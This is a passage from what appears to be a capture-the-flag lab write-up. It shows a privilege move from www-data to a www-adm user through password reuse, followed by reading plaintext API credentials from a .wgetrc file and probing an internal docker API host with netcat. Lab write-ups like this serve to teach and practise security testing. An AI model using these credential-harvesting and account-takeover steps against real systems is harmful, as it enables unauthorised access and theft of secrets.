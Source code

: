 Our next goal is to get to the user www-adm. As we have the admin password for the webpage, let us check for password-reuse.

```bash
www-data@webserver:/home/www-adm$ su www-adm
Password: gameover
www-adm@webserver:~$
```

We successfully switched to www-adm user. Let us now read the `.wgetrc` file.

```bash
www-adm@webserver:~$ cat .wgetrc 
user=api
password=s3CuR3_API_PW!
```

Looking at the man page of wget:

```bash
root@void:~# man wget
[...]
--http-user=user
       --http-password=password
           Specify the username user and password password on an HTTP server.  According to the type of the
           challenge, Wget will encode them using either the "basic" (insecure), the "digest", or the Windows
           "NTLM" authentication scheme.

           Another way to specify username and password is in the URL itself.  Either method reveals your password
           to anyone who bothers to run "ps".  To prevent the passwords from being seen, use the --use-askpass or
           store them in .wgetrc or .netrc, and make sure to protect those files from other users with "chmod".  If
           the passwords are really important, do not leave them lying in those files either---edit the files and
           delete them after Wget has started the download.
[...]
```

The man page of wget, tells us that the `.wgetrc` file contains credentials that can be used for HTTP-Basic auth.

#### API enumeration

Let us try to access the API next. Usually docker-containers can talk to each other, if in the same network. Let us try to find the IP of the docker-API. For this we can do is trying to access the API using the hostname (probably: `api`).

```bash
www-adm@webserver:~$ which nc
/bin/nc
www-adm@webserver:~$ nc api 80
api [172.18.0.101] 80 (http) : Connection refused
```
